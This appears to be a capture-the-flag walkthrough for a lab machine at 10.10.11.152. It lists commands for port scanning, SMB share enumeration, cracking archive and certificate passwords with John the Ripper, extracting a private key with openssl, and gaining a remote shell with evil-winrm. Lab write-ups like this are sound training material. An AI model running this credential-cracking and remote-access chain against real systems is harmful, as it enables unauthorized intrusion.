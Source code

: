 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.152
```
![image](https://github.com/regarmulia/HTB/assets/33616880/de39839c-7d0f-4e06-bce0-405c4fd5e9df)


```
smbclient -L \\\\10.10.11.152\\
smbclient \\\\10.10.11.152\\Shares
```
![image](https://github.com/regarmulia/HTB/assets/33616880/38dc3fff-aa4b-43ea-9708-623342572d32)


```
zip2john winrm_backup.zip > hash_zip
john hash_zip -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2fd7c3da-dd7e-4873-a74d-5cb138de68ca)

![image](https://github.com/regarmulia/HTB/assets/33616880/25e93ff2-37af-438d-8e31-0bbac933bdfb)


```
pfx2john legacyy_dev_auth.pfx > hash_pfx
john hash_pfx -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ade0c972-88c1-45ae-b2fe-482b7f8a930c)


```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/07ffcc57-6bbb-4567-ad1e-38879504d66f)


```
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
```
![image](https://github.com/regarmulia/HTB/assets/33616880/dbc9049b-bc5b-4ae5-bf13-61229ef18444)
